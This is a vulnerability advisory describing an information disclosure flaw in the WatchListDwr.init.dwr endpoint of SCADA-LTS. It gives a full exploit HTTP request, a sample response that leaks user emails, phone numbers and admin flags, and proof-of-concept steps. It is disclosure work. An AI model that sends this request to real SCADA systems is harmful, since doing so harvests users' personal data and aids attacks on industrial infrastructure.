 # Sensitive User Information Disclosure via `WatchListDwr.init.dwr` Endpoint

### Summary

A vulnerability was identified in the `WatchListDwr.init.dwr` endpoint of SCADA-LTS that allows any authenticated user, even with minimal permissions, to access sensitive user information including usernames, emails, phone numbers, and admin status. This flaw constitutes an **Information Disclosure** issue and could be used to facilitate further attacks such as phishing, privilege escalation, or social engineering.

### Details

- **Vulnerable Endpoint:** `POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`  
- **Authentication Required:** Yes (low-privileged user)  
- **Affected Parameter:** N/A (static DWR call)  
- **Impact Type:** Information Disclosure

By issuing a crafted POST request to the vulnerable endpoint, a low-privileged user is able to retrieve detailed information of all users in the system. The backend responds with a full JavaScript object containing data such as usernames, emails, admin flags, and phone numbers.

#### Sample Request:
````
POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr HTTP/1.1
Host: kubernetes.docker.internal:8080
Content-Type: text/plain

callCount=1
page=/Scada-LTS/watch_list.shtm
httpSessionId=
scriptSessionId=XYZ123456789
c0-scriptName=WatchListDwr
c0-methodName=init
c0-id=0
batchId=1
````

#### Sample Response Snippet:

````
javascript
s7.admin=true;
s7.email="admin@yourMangoDomain.com";
s7.username="admin";

s8.admin=false;
s8.email="anonymous@mail.com";
s8.username="anonymous";

s11.admin=false;
s11.email="user1@x.com";
s11.phone="13212313131";
s11.username="user1";

````

### Proof of Concept (PoC)

1. Authenticate as any valid low-privileged user.
![image](/images/disclousure002.png)
2. Send the above POST request to `/Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`.
![image](/images/disclousure001.png)
3. Observe the server response containing sensitive information of all users in the SCADA system.

### Impact
- Privacy Violation: Emails, phone numbers, and usernames of all users, including administrators, are exposed.

- Privilege Escalation Support: Knowledge of admin usernames and roles could be leveraged in further attacks.

- Phishing and Social Engineering: Exposed contact information can be used to craft highly targeted attacks.

- Reconnaissance: Attackers can map the user structure of the SCADA-LTS system for further exploitation.

# References

[SCADA-LTS – Official Repository](https://github.com/SCADA-LTS/Scada-LTS)

# Discoverer

[Natan Maia Morette](https://nmmorette.github.io) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

